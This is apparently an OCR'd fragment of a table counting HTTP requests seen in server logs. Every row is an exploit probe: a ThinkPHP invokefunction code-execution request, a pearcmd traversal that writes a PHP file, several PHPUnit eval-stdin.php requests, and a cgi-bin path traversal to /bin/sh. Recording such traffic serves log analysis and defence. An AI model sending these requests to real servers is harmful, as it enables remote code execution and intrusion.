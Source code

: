|  58 |                     3 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  59 |                     3 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  60 |                     3 | GET /crm/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  61 |                     3 | GET /admin/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  62 |                     3 | POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  63 |                     3 | GET /testing/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  64 |                     3 | GET /test/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |